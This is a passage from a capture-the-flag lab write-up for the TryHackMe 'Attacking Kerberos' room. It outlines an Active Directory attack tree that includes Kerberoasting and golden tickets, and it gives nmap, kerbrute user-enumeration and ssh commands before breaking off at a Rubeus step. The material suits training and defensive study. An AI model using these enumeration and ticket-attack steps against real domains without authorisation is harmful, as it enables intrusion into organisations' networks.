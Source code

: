 # Attacking kerberos

|                               ![Golden ticket](/_static/images/golden-ticket.png)                                |
|:----------------------------------------------------------------------------------------------------------------:|
| The example was made from doing the [THM: Attacking Kerberos room](https://tryhackme.com/room/attackingkerberos) |

## Attack tree

```text
1 Discovery
    1.1 Scan ports
    1.2 Enumerate 139/445
2 Enumerate DC users (AND)
3 Harvesting & brute-forcing tickets
4 Kerberoasting
5 AS-REP roasting
6 Pass the ticket
7 Golden/silver ticket attacks
    7.1 Dump the krbtgt hash
    7.2 Create a golden/silver ticket
    7.3 Use the ticket to access other machines
8 Kerberos backdoors
```

## Scan with nmap

    # nmap -sV -sC -T4 <Machine_IP>

## Enumerate DC users

Add the following line to `/etc/hosts` file (as root):

    <IP address target> CONTROLLER.local

Enumerate users with kerbrute

    /opt/kerbrute/kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt -t 100

![Results kerbrute controller.local](/_static/images/kerbrute-controllerlocal.png)

## Harvesting & password spraying

### Harvesting

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Rubeus is:
